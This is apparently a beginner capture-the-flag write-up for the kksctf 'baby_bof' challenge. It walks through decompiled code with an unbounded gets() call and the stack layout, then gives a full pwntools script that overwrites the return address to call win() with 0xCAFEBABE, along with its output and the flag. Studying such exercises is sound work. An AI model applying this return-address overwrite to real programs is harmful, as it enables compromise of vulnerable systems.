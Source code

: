 As the title said, this is a simple buffer overflow chall. It is friendly to
beginners just like me, we were given a file named "baby_bof".

First check the file:

```bash  
(pwn) pwn@ubuntu:~/Documents/kksctf$ file baby_bof  
baby_bof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0,
BuildID[sha1]=679ffb807feb7aef6982de068fe64bb6deb7fb0c, not stripped  
(pwn) pwn@ubuntu:~/Documents/kksctf$ checksec baby_bof  
[*] '/home/pwn/Documents/kksctf/baby_bof'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x8048000)  
(pwn) pwn@ubuntu:~/Documents/kksctf$ ./baby_bof  
We have prepared a buffer overflow for you  
Can you get use of it?  
Enter your name: hahaha?  
Hello, hahaha?!  
(pwn) pwn@ubuntu:~/Documents/kksctf$  
```

So open it with IDA32 and press "F5", we could see the main function's
Pseudocode:

```c  
int __cdecl main(int argc, const char **argv, const char **envp)  
{  
 char s; // [esp+0h] [ebp-100h]

 setbuf(stdin, 0);  
 setbuf(stdout, 0);  
 setbuf(stderr, 0);  
 puts("We have prepared a buffer overflow for you");  
 puts("Can you get use of it?");  
 printf("Enter your name: ");  
 read_wrapper(&s);  
 printf("Hello, %s!\n", &s);  
 return 0;  
}  
```

The program will ask your name to input, in function read_wrapper, it will use
`gets` function to set the `s`'s value to our input:

```c  
unsigned int __cdecl read_wrapper(char *s)  
{  
 size_t v1; // edx  
 unsigned int result; // eax  
 unsigned int i; // [esp+0h] [ebp-8h]

 gets(s);  
 for ( i = 0; ; ++i )  
 {  
   v1 = strlen(s);  
   result = i;  
   if ( v1 <= i )  
     break;  
   if ( s[i] > '@' && s[i] <= 'Z' )  
     s[i] += 0x20;  
 }  
 return result;  
}  
```

According to this, there is no length limitation for `s`. And `s`'s address is
"ebp-100h", so we can input data like `a*0x100 + b*0x4 + jmp_addr` to
overwrite the return address, and we also can see this in IDA's Stack Window.

```  
-00000100 ; D/A/*   : change type (data/ascii/array)  
-00000100 ; N       : rename  
-00000100 ; U       : undefine  
-00000100 ; Use data definition commands to create local variables and function arguments.  
-00000100 ; Two special fields " r" and " s" represent return address and saved registers.  
-00000100 ; Frame size: 100; Saved regs: 4; Purge: 0  
-00000100 ;  
-00000100  
-00000100 s               db ?  
-000000FF                 db ? ; undefined  
......  
-00000003                 db ? ; undefined  
-00000002                 db ? ; undefined  
-00000001                 db ? ; undefined  
+00000000  s              db 4 dup(?)  
+00000004  r              db 4 dup(?)  
+00000008 argc            dd ?  
+0000000C argv            dd ?                    ; offset  
+00000010 envp            dd ?                    ; offset  
+00000014  
+00000014 ; end of stack variables  
```

Another point is that we should find the `jmp_addr`, usually  we should make
it as the `system("/bin/sh");`,  but in this chall, we can find a function
named `win()`:

```c  
int __cdecl win(int a1)  
{  
 char s; // [esp+3h] [ebp-25h]  
 FILE *stream; // [esp+20h] [ebp-8h]

 stream = fopen("flag.txt", (const char *)&unk_8048830);// 'r'  
 if ( !stream )  
   return puts("flag not found");  
 fgets(&s, 29, stream);  
 if ( a1 != 0xCAFEBABE )  
 {  
   puts("Almost there :)");  
   exit(0);  
 }  
 return printf("Here it comes: %s\n", &s);  
}  
```

We could see this function will open current working directory's file
"flag.txt", and check the argument "a1", if "a1" equal to 0xCAFEBABE, then
print the file contents, that's flag.

We know that it should firstly push arguments to stack before normally calling
a normal function, and call instruction will push the next instruction
address, then the data we input will increase in stack, so the data we should
construct is `a*0x100 + b*0x4 + win_addr + p32(0xcafebabe)`, as the IDA shows,
the win() function start address is 0x80485F6, so the last exploit is:

```python  
from pwn import *  
# for kksctf-baby_bof  
context.log_level = "debug"  
sh = remote("tasks.open.kksctf.ru", 10002)  
#sh = process("./baby_bof")  
#gdb.attach(sh)

win_addr = 0x80485f6

payload = "a"*0x100 + "b"*0x04 + p32(win_addr) + p32(0x804850c) +
p32(0xCAFEBABE) # p32(0x804850c) is the normal main() func return address  
sh.recvuntil("Enter your name: ")  
sh.sendline(payload)  
# pause() # to Debug  
sh.interactive() #the last line should have, to keep seeing flag.  
```

And run it in terminal:

```bash  
(pwn) pwn@ubuntu:~/Documents/kksctf$ python exp.py  
[+] Opening connection to tasks.open.kksctf.ru on port 10002: Done  
[DEBUG] Received 0x2a bytes:  
   'We have prepared a buffer overflow for you'  
[DEBUG] Received 0x29 bytes:  
   '\n'  
   'Can you get use of it?\n'  
   'Enter your name: '  
[DEBUG] Sent 0x111 bytes:  
   00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61
│aaaa│aaaa│aaaa│aaaa│  
   *  
   00000100  62 62 62 62  f6 85 04 08  0c 85 04 08  be ba fe ca
│bbbb│····│····│····│  
   00000110  0a                                                  │·│  
   00000111  
[*] Switching to interactive mode  
[DEBUG] Received 0x119 bytes:  
   00000000  48 65 6c 6c  6f 2c 20 61  61 61 61 61  61 61 61 61  │Hell│o,
a│aaaa│aaaa│  
   00000010  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61
│aaaa│aaaa│aaaa│aaaa│  
   *  
   00000100  61 61 61 61  61 61 61 62  62 62 62 f6  85 04 08 0c
│aaaa│aaab│bbb·│····│  
   00000110  85 04 08 be  ba fe ca 21  0a                        │····│···!│·│  
   00000119  
Hello,
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbb��\x0c\x85\x0\xbe\xba\xfe�!  
[DEBUG] Received 0x7e bytes:  
   'Here it comes: kks{0v3rf10w_15_my_1!f3}\n'  
   '\n'  
   '/home/ctf/redir.sh: line 4:    74 Segmentation fault      timeout -k 120
120 ./chall\n'  
Here it comes: kks{0v3rf10w_15_my_1!f3}

/home/ctf/redir.sh: line 4:    74 Segmentation fault      timeout -k 120 120
./chall  
[*] Got EOF while reading in interactive  
$  
```

- **flag**: kks{0v3rf10w_15_my_1!f3}

Original writeup (https://spwpun.info/2019/12/30/kksctf-writeup/#Baby-buffer-
overflow).